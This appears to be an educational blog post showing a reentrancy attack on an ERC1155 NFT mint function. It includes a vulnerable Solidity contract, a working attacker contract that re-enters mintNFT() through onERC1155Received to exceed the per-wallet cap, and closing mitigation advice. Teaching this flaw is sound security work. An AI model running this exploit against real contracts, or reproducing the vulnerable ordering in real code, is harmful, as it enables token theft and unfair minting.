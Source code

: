 ```yaml
---
published: true
Written By: Batman
---
```

## Attacking ERC1155's _mint function through ReEnterency

### Hi 

Most of you heard of  Ethereum Blockchain and NFT(Non-fungible Token). 

In terms of implementing a NFT on **Ethereum Blockchain** using **Solidity** language, there are two well defined and popular standards i.e **ERC721 and ERC1155**

We will be working on ERC1155 standard, implementing by **openzepplin**

Generally , in ERC1155 smart contract, There is a function which let users to mint NFT through a public website. A typical smart contract will look like 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^ 0.8.7;

import "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import "@openzeppelin/contracts/access/Ownable.sol";
import "@openzeppelin/contracts/token/ERC1155/extensions/ERC1155Burnable.sol";


contract MySimpleErc1155 is ERC1155, ERC1155Burnable, Ownable {
    uint mintIdx ;
    string public name;
    string public symbol;
    uint maxMintperWallet = 10;
    mapping(address => uint ) perWalletMinttracker; 
    constructor() ERC1155("https://gateway.pinata.cloud/ipfs/"){
        name = "MYSIMPLE1155";
        symbol = "MS1155";
    }

    function mintNFT() public {
    	
    	// check if user has minted 10 NFT or not
        require(perWalletMinttracker[msg.sender] < maxMintperWallet, "Per wallet mint limit exceed");
        
        // if require condition pass then mint one NFT 
        _mint(msg.sender,1 , 1 , "");
        
        //increase mint counter for the user
        perWalletMinttracker[msg.sender]++;

    }

}

```



**MySimpleErc1155** contract is extending openzepplin's implementation of ERC1155. It has some standard variable like name , symbol which get assigned in the constructor. 

Important function and variables here is **mintNFT()**  and **maxMintPerWallet** . The `require (perWalletMinttracker[msg.sender] < maxMintperWallet, "Per wallet mint limit exceed");` is restricting the user to mint more than 10 NFT. And after a successful mint in ` _mint(msg.sender,1 , 1 , "");` , it increment the counter by one for the user  in the `perWalletMinttracker` .This perWalletMinttracker is used in **require** condition to check if the user has minted 10 NFT or not.

This is very common practice which I seen in many ERC1155 smart contract.  let's compile and deploy this smart contract and mint some NFT.

I will be using remix ide for the same. bekow is the screen shot after deployment of the contract

![1.png](https://github.com/gurus158/blogs/blob/gh-pages/post_images/2022-03-02-ReEnterency-Attack-In-ERC1155-NFT-Protocol/1.png?raw=true)

So when we call mintNFT() function , it will mint one NFT . I have called it 10 times. and when i call it 11th time from same account it throw me error `Per wallet mint limit exceed` , which is expected .

![2.png](https://github.com/gurus158/blogs/blob/gh-pages/post_images/2022-03-02-ReEnterency-Attack-In-ERC1155-NFT-Protocol/2.png?raw=true)

in image you can see , balance is 10 for the user, and when user try to mint 11th , transaction reverted.

But it is possible to bypass maxMintPerWallet limit for this smart contract. One can mint as many NFT as he wants.

In ERC1155 , minting is basically transfer of a token **from null addres to the address of the user want to mint** , and ERC1155 need to sure that receiver is willing to receive the token and  receiver has received the token. For that receiver need to be an ERC1155 holder and should have implemenataion of **onERC1155Received**() which return a sort of signal that it has received the token.

Now the problem is user can be a normal wallet or a smart contract. And if it's a smart contract it will implement **onERC1155Received()** . In it's implementation , it is possible to write any logic or even call mintNFT function of the original contract again and it will become a recursion.

As this contract updating **perWalletMinttracker** after callling **_mint()** , It is very possible to bypass   `require(perWalletMinttracker[msg.sender] < maxMintperWallet, "Per wallet mint limit exceed");` this check, because while calling mintNFT again in **onERC1155Received** , perwalletTracker is not updated yet. 

Let's exploit this vulnerability by creating another contract. code will look like below:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^ 0.8.7;
import "@openzeppelin/contracts/token/ERC1155/utils/ERC1155Holder.sol";

abstract contract MySimpleErc1155 {
    function mintNFT() public virtual;
}
contract hacker is ERC1155Holder{
    
    MySimpleErc1155 victimContract;

    constructor() {
        victimContract  = MySimpleErc1155(0xd9145CCE52D386f254917e481eB44e9943F39138);
    }
    uint iterations =12;

    function onERC1155Received(
        address,
        address,
        uint256,
        uint256,
        bytes memory
    ) public virtual override returns (bytes4) {
                iterations--;
        if (iterations==0)
        {return this.onERC1155Received.selector;}

        victimContract.mintNFT();
        return this.onERC1155Received.selector;
    }

    function mintN() public {
        victimContract.mintNFT();
    }
    }
```

I have extended ERC1155Holder in hacker contract. Also I have declared an abstract contract with mintNFT() function similar to actual **MySimpleErc1155**.

I have created 2 functions 

1. onERC1155Received --> override the actual implementation present in ERC1155Holder.sol
2. mintN --> simple function which call **MySimpleErc1155** 's  **mintNFT()**

If you see the **onERC1155Received** function above, I have added a if statement to only call mintNFT() 12 times i.e greater than 10.

let's compile and deploy this hacker contract.

![3.png](https://github.com/gurus158/blogs/blob/gh-pages/post_images/2022-03-02-ReEnterency-Attack-In-ERC1155-NFT-Protocol/3.png?raw=true)

You can see we have  mintN and couple of other functions available, which are implemented in ERC1155Holder.sol.

Now if I click mintN button on remix. hacker contract will be able to mint 12 NFTs.

We can confirm this by checking balanceOf function of **MySimpleErc1155** . 

![4.png](https://github.com/gurus158/blogs/blob/gh-pages/post_images/2022-03-02-ReEnterency-Attack-In-ERC1155-NFT-Protocol/4.png?raw=true)



So this is how Re-Enterency can be exploit . To save your contract from this vulnerability. It is recommended to do all required calculation before calling **_mint()** 

or using reEnterency guards available in [openzepplin](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol)
